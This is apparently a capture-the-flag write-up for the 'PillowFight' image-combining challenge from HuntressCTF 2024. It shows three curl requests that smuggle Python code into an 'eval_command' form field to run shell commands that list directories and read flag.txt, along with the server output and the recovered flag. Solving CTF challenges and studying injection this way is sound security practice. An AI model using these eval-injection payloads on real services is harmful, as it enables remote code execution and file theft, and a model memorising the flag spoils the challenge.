



# Image Sequence - Chronological Order
Author: @HuskyHacks

PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing

*note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise.
Below is a sequence of PNG images sorted by their timestamps. Each image is embedded in the order it was created.

  
*Created: Nov 3, 13:21*

  
*Created: Nov 3, 13:21*

  
*Created: Nov 3, 13:24*

  
*Created: Nov 3, 13:25*


```bash
A:
curl -X POST "http://challenge.ctf.games:30538/combine" -H  "accept: image/png" -H  "Content-Type: multipart/form-data" -F "image1=@huntressctf2024.png;type=image/png" -F "image2=@huntressctf2024.png;type=image/png" -F "eval_command=convert(img1 + (__import__('os').popen('ls /').read()), 'L')"

{
  "error": "unknown color specifier: 'app\\nbin\\nboot\\ndev\\netc\\nhome\\nlib\\nlib64\\nmedia\\nmnt\\nopt\\nproc\\nroot\\nrun\\nsbin\\nsrv\\nsys\\ntmp\\nusr\\nvar\\n'"
}

B:
curl -X POST "http://challenge.ctf.games:30538/combine" -H  "accept: image/png" -H  "Content-Type: multipart/form-data" -F "image1=@huntressctf2024.png;type=image/png" -F "image2=@huntressctf2024.png;type=image/png" -F "eval_command=convert(img1 + (__import__('os').popen('ls /app').read()), 'L')"

{
  "error": "unknown color specifier: 'dockerfile\\napp.py\\nbliss.png\\nchallenge.yml\\nflag.txt\\nsolve.py\\n'"
}

Flag:
curl -X POST "http://challenge.ctf.games:30538/combine" -H  "accept: image/png" -H  "Content-Type: multipart/form-data" -F "image1=@huntressctf2024.png;type=image/png" -F "image2=@huntressctf2024.png;type=image/png" -F "eval_command=convert(img1 + (__import__('os').popen('cat /app/flag.txt').read()), 'L')"

{
  "error": "unknown color specifier: 'flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}'"
}
```
